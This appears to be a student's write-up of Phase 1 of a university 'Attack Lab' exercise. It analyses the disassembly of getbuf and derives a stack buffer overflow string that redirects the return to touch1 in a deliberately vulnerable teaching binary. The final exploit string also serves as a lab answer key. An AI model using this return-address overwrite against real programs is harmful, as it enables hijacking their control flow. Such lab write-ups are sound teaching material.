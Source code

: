
# Phase 1

## Attack Lab Spec

For Phase 1, you will not inject new code. Instead, your exploit string will redirect the program to execute an existing procedure.
Function getbuf is called within CTARGET by a function test having the following C code:  
```
void test()          
{
  int val;
  val = getbuf();
  printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
When `getbuf` executes its return statement (line 5 of `getbuf`), the program ordinarily resumes execution
within function `test` (at line 5 of this function). We want to change this behavior. Within the file `ctarget`,
there is code for a function `touch1` having the following C representation:  
```
void touch1()
{
  vlevel = 1; /* Part of validation protocol */
  printf("Touch1!: You called touch1()\n"); 
  validate(1);
  exit(0);
}
```
Your task is to get `CTARGET` to execute the code for `touch1` when `getbuf` executes its return statement,
rather than returning to `test`. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since `touch1` causes the program to exit directly.

**Some Advice**:  
• All the information you need to devise your exploit string for this level can be determined by examining a disassembled version of `CTARGET`. Use `objdump -d` to get this dissembled version.  
• The idea is to position a byte representation of the starting address for `touch1` so that the ret instruction at the end of the code for `getbuf` will transfer control to `touch1`.  
• Be careful about byte ordering.  
• You might want to use GDB to step the program through the last few instructions of `getbuf` to make sure it is doing the right thing.  
• The placement of `buf` within the stack frame for `getbuf` depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC. You will need to examine the disassembled code to determine its position.  

## Analysis

It's clear that we need to get to `touch1` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:
4017be:	48 83 ec 18          	sub    $0x18,%rsp
4017c2:	48 89 e7             	mov    %rsp,%rdi
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax
4017cf:	48 83 c4 18          	add    $0x18,%rsp
4017d3:	c3                   	retq
```
Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into rdi. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 1, this is simply just changing the return address, which is always the last thing on the stack when
a function exits. We can confirm this by considering that we add 0x18 back to the rsp and then retq, which pops the value held at rsp and then goes to it. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch1` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch1` we see  
`00000000004017d4 <touch1>`  
which tells us that our touch1 function is at address 0x4017d4. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

## Final Solution

Knowing that our `getbuf` requires 0x18 or 1 * 16 + 8 * 1 = 24 bytes of input and then our return address, we can put the two together to yield the final injection string:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 d4 17 40`  
